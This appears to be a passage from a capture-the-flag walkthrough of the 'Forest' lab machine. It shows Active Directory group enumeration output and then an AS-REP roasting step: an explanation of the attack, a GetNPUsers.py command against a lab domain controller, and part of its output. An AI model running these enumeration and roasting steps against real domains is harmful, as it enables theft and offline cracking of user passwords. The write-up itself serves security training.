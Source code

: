 ```bash
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```

## User Shell

### Roasting AS-REPs

This is a kerbaroasting attack that target accounts that have pre-authentication disabled.

> if you can enumerate any accounts in a Windows domain that don’t require Kerberos preauthentication, you can now easily request a piece of encrypted information for said accounts and efficiently crack the material offline, revealing the user’s password.

A detailed writeup of this attack can be found [here](http://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

So essentially if a user account has `DONT_REQ_PREAUTH` then we can request a TGT from the DC for the user and then crack it offline.

Put all the usernames we enumerated in to a file and use `GetNPUsers.py` to check all users.

```bash
kali@kali:~/Desktop/htb/forest$ GetNPUsers.py htb.local/ -no-pass -usersfile users -dc-ip 10.10.10.161
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
```